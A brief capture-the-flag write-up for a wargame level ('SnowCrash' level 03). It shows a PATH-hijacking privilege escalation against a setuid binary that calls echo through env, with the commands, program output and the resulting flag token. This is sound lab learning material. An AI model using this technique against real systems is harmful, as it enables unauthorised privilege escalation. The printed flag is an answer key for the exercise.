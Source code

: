 # Level 03

A quick reverse engineering of the binary shows us that it uses the system function to execute echo which is easy to exploit by making it execute the wrong echo

```c
  system("/usr/bin/env echo Exploit me");
```

The binary can execute getflag because it is owned by flag03

We start by creating a fake echo that will just getflag
```bash
echo getflag > /tmp/echo
```

We add it in first in the path so it overrides the actual echo which is in /bin

```bash
export PATH=/tmp:$PATH
```

Eventually we give everybody the rights to execute this file
```bash
level03@SnowCrash:/tmp$ chmod 777 echo
```

```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

**Flag** : qi0maab88jeaj46qoumi7maus